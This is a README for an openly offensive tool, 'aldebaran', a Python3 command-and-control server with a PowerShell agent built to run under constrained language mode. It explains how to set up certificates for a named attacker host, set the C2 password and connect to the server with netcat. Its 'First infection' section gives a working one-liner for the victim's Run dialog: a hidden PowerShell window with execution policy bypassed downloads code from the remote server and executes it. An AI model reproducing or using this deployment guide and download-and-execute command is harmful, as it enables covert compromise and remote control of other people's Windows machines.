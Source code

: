 # aldebaran

Python3 C2 server and agent payload.

uses HTTP protocol with checkin. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
install requirements with pip3


## Certificates
you will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d 220.ip-54-37-16.eu -d 220.ip-54-37-16.eu --register-unsafely-without-email ```
and copy certs in same directory as "darma/listener.py"

you will have to create valid https certs.
change cert paths in "listener.py".  When server is deamonized its path will be changed to "/"

## Change payload url

Change payload to point to your server url

## Change password of c2 server
Change bcrpyt hash in "darma/command.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
run agent on victim


## Attacker machine
connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
logging can be found @ ```/var/log/aldebaran.log```

## First infection

run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "$command = iwr -Uri https://220.ip-54-37-16.eu/ -Method GET  -UseBasicParsing; iex $command"
```

## TODO
### Error check in menu
### Install script
